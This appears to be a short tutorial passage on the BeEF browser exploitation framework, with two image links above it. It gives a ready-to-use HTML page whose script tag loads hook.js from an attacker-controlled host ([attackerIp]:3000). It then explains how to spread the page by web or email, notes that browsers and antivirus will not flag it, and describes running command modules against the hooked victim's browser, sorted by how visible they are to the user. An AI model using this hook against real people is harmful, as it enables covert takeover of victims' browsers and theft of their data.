


Example Hook
In order to demonstrate the Hooking attack, only a very basic HTML page that load the Javascript code hook.js of the attacker is needed.
This html page could be placed on a web server, put on a file server, emailed to someone etc. If someone opens this file they will be open for the attack. No warnings will be given, the browser won’t complain, and the virus scanner won’t pick it up :(

<html>
<head>
If you are reading this you are about to be attacked!
</head>
<body>
<script type="text/javascript" src="http://[attackerIp]:3000/hook.js"></script>
</body>
</html>
The AttackerIp is the “Hook URL” given by BeEF when we have started it
1. After that the Victim has clicked on our malicious webpage with the code above
2. Because now we have the control of it, on BeEF just click on the victim host that shows us a stack of information about the victim.

3. Current Browser → Commands
We have a huge set of commands that we can execute on the victim machine

Each command module has a traffic light icon, which is used to indicate the following:
◇ Green → works against the target and should be invisible to the user
◇ Orange → works against the target but may be visible to the user
◇ White → module is yet to be verified against this target
◇ Red → module does not work against this target